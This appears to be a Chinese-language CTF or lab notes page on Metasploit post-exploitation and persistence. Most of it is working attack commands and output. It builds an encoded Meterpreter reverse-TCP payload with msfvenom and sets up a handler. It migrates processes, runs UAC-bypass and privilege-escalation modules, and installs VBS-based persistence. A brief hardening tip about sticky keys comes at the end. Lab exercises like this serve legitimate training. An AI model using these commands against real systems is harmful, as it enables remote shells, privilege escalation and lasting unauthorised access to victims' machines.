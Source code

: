 ```yaml
---
title: msf后渗透维持
date: 2023-11-28 14:19:49
categories: CTF
tags: [渗透]
---
```

```
C:\Users\22154>netstat -ano|findstr 11300
  TCP    172.30.48.1:53633      172.30.56.107:11300    ESTABLISHED     21716
  TCP    172.30.48.1:53699      172.30.56.107:11300    ESTABLISHED     5212
  TCP    172.30.48.1:53704      172.30.56.107:11300    ESTABLISHED     17876
```

![1701172793037](Untitled/1701172793037.png)

[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[!] UAC set to DoNotPrompt - using ShellExecute "runas" method instead
[*] Uploading kFJOgrXchF.exe - 7168 bytes to the filesystem...



msfvenom -a x86 –platform windows -p windows/meterpreter/reverse_tcp lhost=172.30.56.107 lport=11300 -i 3 -e x86/shikata_ga_nai -f exe -o payload.exe

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp #设置成payload的模式
set LHOST 172.30.56.107
set lport 11300
exploit -j
sessions -i 2
shell
#进行进程迁移
tasklist|findstr explorer
migrate 1844
background
chcp 65001
#探测系统漏洞，比较耗费系统资源
use post/multi/recon/local_exploit_suggester
set session 1
exploit 

use exploit/windows/local/ms16_032_secondary_logon_handle_privesc

use exploit/windows/local/bypassuac_fodhelper

set session 3

exploit 

## 上传到了临时文件夹

检测发现后面上传的利用工具都

C:\Users\22154\AppData\Local\Temp\OkNyUvljPBU.ps1
C:\Users\22154\AppData\Local\Temp\AFYMdwEU.ps1
VFvBBvAw.exe

## 提权
```
msf6 exploit(windows/local/bypassuac_dotnet_profiler) > exploit

[*] Started reverse TCP handler on 172.30.56.107:11300
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[!] UAC set to DoNotPrompt - using ShellExecute "runas" method instead
[*] Uploading XyrFnIA.exe - 7168 bytes to the filesystem...
[*] Executing Command!
[*] Sending stage (200774 bytes) to 172.30.48.1
[*] Meterpreter session 5 opened (172.30.56.107:11300 -> 172.30.48.1:54093) at 2023-11-28 20:15:41 +0800
```



## 维持
run persistence 借助vbs

![1701177877128](msf%E6%9C%A8%E9%A9%AC%E4%B8%8A%E7%BA%BF%E5%90%8E/1701177877128.png)



## 加固

#### 关闭“启用粘滞键”选项 

辅助功能-->键盘，全部取消。